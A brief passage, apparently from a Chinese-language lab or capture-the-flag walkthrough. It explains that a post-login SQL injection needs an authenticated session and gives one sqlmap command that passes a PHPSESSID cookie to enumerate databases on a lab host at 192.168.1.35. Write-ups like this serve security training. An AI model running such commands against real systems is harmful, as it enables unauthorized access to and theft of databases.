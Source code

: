 ![](./pic-2/8-10.jpg)



### sqlmap测试

使用`sqlmap`测试，这里需要注意，前面进行登录后才存在的注入，这里需要进行认证，也就是需要带着`cookie`进行测试才行

#### 爆库

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i --dbs --batch
```

![](./pic-2/9.jpg)
